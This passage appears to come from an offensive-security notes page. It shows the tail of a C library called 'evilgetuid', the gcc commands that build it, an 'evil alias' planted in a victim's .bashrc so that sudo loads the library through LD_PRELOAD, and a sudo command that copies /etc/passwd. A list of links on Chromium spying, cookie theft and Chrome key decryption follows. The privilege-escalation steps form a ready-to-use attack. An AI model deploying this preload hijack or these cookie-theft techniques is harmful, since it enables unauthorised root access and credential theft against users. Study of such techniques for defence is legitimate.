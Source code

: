 ```c
		}
		else // if inside the original process
		{
				printf("Returning from original...\n");
				return (*getuid_orig)();
		}

		printf("Returning from main...\n");
		return -2;
}
```
{% endcode %}

Compile:

```
$ gcc -Wall -fPIC -z execstack -c -o evilgetuid.o evilgetuid.c
$ gcc -shared -o evilgetuid.so evilgetuid.o -ldl
```

Create an evil alias to preserve environment variables when running `cp` with sudo (good candidates are `.bashrc` and `.bash_profile`):

```
alias sudo="sudo LD_PRELOAD=/home/victim/evilgetuid.so"
```

Run the target executable:

```
$ sudo cp /etc/passwd /tmp/passwd
```




## Browsers



### Chrome / Chromium

- [https://posts.specterops.io/stalking-inside-of-your-chromium-browser-757848b67949](https://posts.specterops.io/stalking-inside-of-your-chromium-browser-757848b67949)
- [https://mrd0x.com/spying-with-chromium-browsers-screensharing/](https://mrd0x.com/spying-with-chromium-browsers-screensharing/)
- [https://mrd0x.com/spying-with-chromium-browsers-camera/](https://mrd0x.com/spying-with-chromium-browsers-camera/)
- [https://trustedsec.com/blog/dragging-secrets-out-of-chrome-ntlm-hash-leaks-via-file-urls](https://trustedsec.com/blog/dragging-secrets-out-of-chrome-ntlm-hash-leaks-via-file-urls)


#### Local State Key Decryption

- [https://github.com/privtools/WinChromeCookieDec](https://github.com/privtools/WinChromeCookieDec)
- [https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html](https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html)
- [https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824](https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824)
- [https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption)
- [https://github.com/runassu/chrome_v20_decryption](https://github.com/runassu/chrome_v20_decryption)
- [https://specterops.io/blog/2025/08/27/dough-no-revisiting-cookie-theft/](https://specterops.io/blog/2025/08/27/dough-no-revisiting-cookie-theft/)
